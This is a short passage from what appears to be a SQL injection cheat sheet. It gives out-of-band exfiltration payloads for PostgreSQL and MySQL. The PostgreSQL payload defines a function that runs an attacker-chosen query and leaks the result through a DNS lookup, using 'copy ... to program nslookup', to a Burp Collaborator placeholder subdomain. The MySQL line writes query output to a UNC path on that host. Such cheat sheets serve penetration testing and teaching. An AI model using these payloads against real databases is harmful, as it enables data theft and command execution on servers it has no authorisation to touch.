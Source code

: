 3.  PostgreSQL

    ``` sql
    --create OR replace function f() returns void as $$
    declare c text;
    declare p text;
    begin
    SELECT into p (SELECT YOUR-QUERY-HERE);
    c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
    execute c;
    END;
    $$ language plpgsql security definer;
    SELECT f();
    ```

4.  MySQL

    ``` sql
    -- WINDOWS ONLY
    SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
    ```